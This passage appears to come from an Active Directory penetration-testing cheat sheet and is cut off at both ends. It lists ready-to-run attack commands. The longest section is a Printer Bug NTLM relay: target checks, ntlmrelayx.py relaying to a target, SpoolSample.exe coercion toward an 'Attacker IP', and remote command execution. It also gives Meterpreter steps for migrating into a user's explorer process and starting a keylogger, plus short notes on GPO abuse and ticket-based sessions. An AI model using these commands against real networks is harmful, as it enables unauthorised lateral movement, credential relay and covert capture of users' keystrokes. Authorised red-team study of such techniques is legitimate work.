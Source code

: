 ### Enter Into A New Session With The Generated Ticket<br>
Enter-PSSession -ComputerName server1.domain.local<br>

# Automatic Relays (Printer Bug)
We need:<br>
A valid set of AD account credentials.<br>
Network connectivity to the target's SMB service.<br>
The target host must be running the Print Spooler service.<br>
The hosts must not have SMB signing enforced.<br>
## Check For Machine Accounts (BLoodhound Query)
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p<br>
## Check For Print Spooler
Get-PrinterPort -ComputerName server2.domain.local<br>
OR <br>
GWMI Win32_Printer -Computer server2.domain.local<br>
## Check For SMB Signing<br>
nmap --script=smb2-security-mode -p445 server1.domain.local server2.domain.local<br>
## in kali
### Exploit
python3 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"OWNED-TARGET-IP" -debug<br>
SpoolSample.exe TARGET-DOMAIN-NAME "Attacker IP"<br>
python3 ntlmrelayx.py -smb2support -t smb://"OWNED-TARGET-IP" -c 'whoami /all' -debug<br>

# Exploit Users (Keylogger)
<b>Note: sometimes it's good idea to move to less privileged users instead of sticking to admin<br>
Also, we'll be using metasploit modules for this<br></b>
## Find Processes That User Is Running<br>
 ps | grep "explorer"<br>
 Migrate To Process<br>
migrate *PID* <br>
Start Keylogger<br>
keyscan_start<br>

 # Exploit GPO
Check access via Bloodhound, you can use mmc tool via RDP to access and edit GPOs<br>
# Inter-Realm TGTs
 <b>DOMAIN ADMIN REQUIRED<br></b>

We need:<br>
